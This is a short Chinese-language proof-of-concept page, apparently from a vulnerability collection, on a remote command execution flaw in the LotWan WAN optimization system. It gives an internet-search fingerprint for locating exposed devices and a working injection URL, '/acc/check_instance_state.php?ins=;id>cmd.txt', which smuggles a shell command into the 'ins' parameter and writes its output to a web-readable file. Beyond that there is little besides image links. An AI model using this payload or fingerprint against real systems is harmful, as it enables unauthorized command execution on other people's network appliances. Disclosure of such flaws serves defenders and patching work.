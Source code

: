 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

存在漏洞的文件为

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![img](../../../.vuepress/public/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



若有收获，就点个赞吧